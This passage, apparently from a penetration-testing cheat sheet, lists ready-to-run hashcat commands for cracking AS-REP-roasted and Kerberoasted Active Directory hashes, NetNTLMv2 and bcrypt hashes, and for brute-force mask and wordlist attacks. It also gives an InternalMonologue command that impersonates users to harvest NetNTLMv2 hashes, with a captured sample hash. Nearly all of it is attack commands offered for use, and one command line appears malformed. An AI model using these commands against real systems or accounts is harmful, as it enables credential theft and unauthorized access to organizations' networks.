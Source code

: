 ##### Cracking ASPREPRoast Password File

```c
hashcat -m 18200 -a 0 <FILE> <FILE>
```

##### Cracking Kerberoasting Password File

```c
hashcat -m 13100 --force <FILE> <FILE>
```

##### Bruteforce based on the Pattern

```c
hashcat -a3 -m0 mantas?d?d?d?u?u?u --force --potfile-disable --stdout
```

##### Generate Password Candidates: Wordlist + Pattern

```c
hashcat -a6 -m0 "e99a18c428cb38d5f260853678922e03" yourPassword|/usr/share/wordlists/rockyou.txt ?d?d?d?u?u?u --force --potfile-disable --stdout
```

##### Generate NetNLTMv2 with internalMonologue and crack with hashcat

```c
InternalMonologue.exe -Downgrade False -Restore False -Impersonate True -Verbose False -challange 002233445566778888800
```

###### Result

```c
spotless::WS01:1122334455667788:26872b3197acf1da493228ac1a54c67c:010100000000000078b063fbcce8d4012c90747792a3cbca0000000008003000300000000000000001000000002000006402330e5e71fb781eef13937448bf8b0d8bc9e2e6a1e1122fd9d690fa9178c50a0010000000000000000000000000000000000009001a0057005300300031005c00730070006f0074006c006500730073000000000000000000
```

##### Crack with hashcat

```c
hashcat -m5600 'spotless::WS01:1122334455667788:26872b3197acf1da493228ac1a54c67c:010100000000000078b063fbcce8d4012c90747792a3cbca0000000008003000300000000000000001000000002000006402330e5e71fb781eef13937448bf8b0d8bc9e2e6a1e1122fd9d690fa9178c50a0010000000000000000000000000000000000009001a0057005300300031005c00730070006f0074006c006500730073000000000000000000' -a 3 /usr/share/wordlists/rockyou.txt --force --potfile-disable
```

##### Rules

> https://github.com/NotSoSecure/password_cracking_rules/blob/master/OneRuleToRuleThemAll.rule

##### Cracking with OneRuleToRuleThemAll.rule

```c
hashcat -m 3200 hash.txt -r /PATH/TO/FILE.rule
```
